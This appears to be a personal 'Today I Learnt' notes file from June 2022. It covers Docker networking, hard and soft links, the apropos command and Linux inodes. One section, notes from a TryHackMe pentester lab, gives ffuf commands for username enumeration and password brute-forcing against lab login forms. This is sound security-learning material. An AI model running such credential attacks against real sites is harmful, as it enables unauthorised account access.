 # Today-I-Learnt

## TIL 05/06/2022

### Docker Network

* You can connect docker containers and services with each other as well as to non-docker workloads

* Docker is a software to build and run containers(_Containers are lightweight packages of your application code together with dependencies such as specific versions of programming language runtimes and libraries required to run your software services._) whereas Kuberentes is an orchestration tool i.e it is used to operate multiple containers at a large scale .

* Docker manipulates iptable rules for networking

* Docker also provides a system for scaling called __Docker Swarm__

* Docker network drivers (bridge, host, overlay, ipvlan, macvlan, none). You can also use third party plugins

* User-defined bridge networks are best when you need multiple containers to communicate on the same Docker host. [Default network](https://docs.docker.com/network/network-tutorial-standalone/)

* [Host networks](https://docs.docker.com/network/network-tutorial-host/) are best when the network stack should not be isolated from the Docker host, but you want other aspects of the container to be isolated.

* [Overlay networks](https://docs.docker.com/network/network-tutorial-overlay/) are best when you need containers running on different Docker hosts to communicate, or when multiple applications work together using swarm services.

* [Macvlan networks](https://docs.docker.com/network/network-tutorial-macvlan/) are best when you are migrating from a VM setup or need your containers to look like physical hosts on your network, each with a unique MAC address.

* Third-party network plugins allow you to integrate Docker with specialized network stacks.

### [Docker and Iptables](https://docs.docker.com/network/iptables/)


### Linux Monitoring


### Tryhackme
#### Course 1. Jnr Pentester 
##### Chapter 1. Authentication Bypass
```bash
# Fuzzing a username
# Which ever field needs to be fuzzed should have a value set as 'FUZZ' 
# '-mr' is the flag used to slect what is the valid output we are looking for in the page
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists" 

# Fuzzing password
# When we pass the file as values to the field we use '-w'
# -fc flag is used for status code we are looking for
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.228.119/customers/login -fc 200

```

## TIL 06/06/2022
### Tryhackme
#### Course 1. Jnr Pentester 
##### Chapter 2. Burp suite 
1. Burp suite Repeater
2. Burp suite Intruder
3. Burp suite extender

## TIL 07/06/2022



## TIL 08/06/2022


## TIL 09/06/2022
### Difference betweek Hardlink and Softlink

__Hard Link__ 
1. will act as a copy i.e it will have content of the original file and will not get deleted if the original gets deleted
2. Same Inode number. 
3. Only a super user can create a hardlink for directory
4. A Hard link links files and directories inside the same file system
5. Compareively faster

__Soft Link__ _(Symbolic Link)_ 
1. is just a pointer or reference to the original file 
2. Name-based reference to file


## TIL 12/06/2022
### How to get list of available tools/coomands related to something in linux
```bash
apropos
```
For an example if you want to know about all the available commands/tools in the OS related to disk you can use the below step
```bash
apropos disk

# Output 
DiskUnmountWatcher(8)    - watches for disk unmount and remove cached credentials
FDERecoveryAgent(8)      - Full Disk Encryption Key Recovery Transmission Agent
NRDUpdated(8)            - The Network Recovery on Disk Update daemon
UnmountAssistantAgent(8) - Provides help when a disk can't be ejected
asr(8)                   - Apple Software Restore; copy volumes (e.g. from disk images)
attach_automation_image(8), -(8) - ."====================== attach_automation_image attach and initialize disk images for automation_trampoline(8) ." ."
bitesize.d(1m)           - analyse disk I/O size by process. Uses DTrace
bless(8)                 - set volume bootability and startup disk options
df(1)                    - display free disk space
diskarbitrationd(8)      - disk arbitration daemon
diskimagesiod(8)         - Handles I/O for disk images
disklabel(8)             - manipulate and query an Apple Label disk label
diskmanagementd(8)       - DiskManagement.framework server
diskmanagementstartup(8) - DiskManagement.framework helper tool
disktool(8)              - disk support tool
diskutil(8)              - modify, verify and repair local disks
dmc(1)                   - controls the Disk Mount Conditioner
du(1)                    - display disk usage statistics
fdisk(8)                 - DOS partition maintenance program
hdid(8)                  - historical mechanism for attaching disk images
hdiejectd(8)             - disk image management daemon
hdik(8)                  - lightweight tool to attach and mount disk images in-kernel
hdiutil(1)               - manipulate disk images (attach, verify, create, etc)
hotspot.d(1m)            - print disk event by location. Uses DTrace
htcacheclean(8)          - Clean up the disk cache
iopattern(1m)            - print disk I/O pattern. Uses DTrace
iopending(1m)            - plot number of pending disk events. Uses DTrace
iotop(1m)                - display top disk I/O events by process. Uses DTrace
netbootdisk(8)           - find local drive to use with NetBoot
pdisk(8)                 - Apple partition table editor
pkgbuild(1)              - Build a macOS Installer component package from on-disk files
purge(8)                 - force disk cache to be purged (flushed and emptied)
quota(1)                 - display disk usage and limits
seeksize.d(1m)           - print disk event seek report. Uses DTrace
snmpdf(1)                - display disk space usage on a network entity via SNMP
sync(8)                  - force completion of pending disk writes (flush cache)
Apache2::Reload(3pm)     - Reload Perl Modules when Changed on Disk
:
```
### Inodes 
#### Resources
1. https://docs.rackspace.com/support/how-to/what-are-inodes-in-linux/#:~:text=What%20is%20an%20inode%3F,blocks%20of%20each%20file's%20data.
2. https://syedali.net/2015/02/08/understanding-inodes/
3. https://www.javatpoint.com/linux-inodes

* Linux® must allocate an index node (inode) for every file and directory in the filesystem. Inodes do not store actual data. Instead, they store the metadata where you can find the storage blocks of each file’s data.
* The following metadata exists in an inode:
> File type
> Permissions
> Owner ID
> Group ID
> Size of file
> Time last accessed
> Time last modified
> Soft/Hard Links
> Access Control List (ACLs)





